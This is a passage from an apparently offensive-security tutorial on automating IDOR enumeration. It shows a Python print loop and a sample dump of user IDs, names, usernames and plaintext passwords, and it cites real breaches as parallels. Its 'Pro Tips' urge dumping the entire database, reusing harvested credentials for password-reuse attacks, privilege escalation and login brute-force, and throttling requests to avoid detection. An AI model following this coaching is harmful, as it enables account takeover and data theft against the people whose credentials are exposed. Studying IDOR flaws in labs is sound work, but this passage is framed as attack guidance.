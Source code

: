 ```python
# Print tab-delimited results
print("UID\tName\tUsername\tPassword")
for row in results:
    print("\t".join(map(str, row)))
```

---

## 📝 Sample Output

```
UID	Name	        Username	Password
191	Adam Matthews	sixpack	    b4dl1ght
192	Pablina S	    pablo	    puntita5th
193	Shawn	        fattysh	    gr3ggslu7
195	Ruth House	    ruth_h	    lonelypu55
197	Chardonnay	    vegasc	    dangermou5e
198	Phill Bellend	phillb	    b3ll3nd
199	Paul Byrne	    byrnsey	    l33tfuzz
200	Peter Weiner	weiner	    skinth1rd
```

Now we’ve got a clean dump of user credentials. By expanding the `uid` range, you can dump **the entire database**.

---

## **Extra Real-World Twist**

This is basically the **classic IDOR (Insecure Direct Object Reference)** problem, but automated.

🔐 Real-life parallel:

* 2012 **Facebook bug bounty** case — Researchers found sequential IDs exposed private photos.
* 2019 **Indian Aadhaar breach** — Predictable Aadhaar numbers used to dump citizen data.
* 2021 **Clubhouse app** — Scrapers enumerated user IDs to harvest user profiles and linked info.

---

## ⚡ Pro Tips

* Save results to `.csv` or `.xlsx` for quick pivoting and filtering.
* Use harvested creds for **password reuse attacks** or **privilege escalation**.
* Combine with **automation chaining**: harvested data can be the **input** for your next attack (e.g., trying those usernames in login brute-force).
* Don’t brute-force too aggressively; mix delays to avoid detection.

---

# 🧪 Fuzzing for Common Vulnerabilities (Python Edition)

So far, we’ve seen:
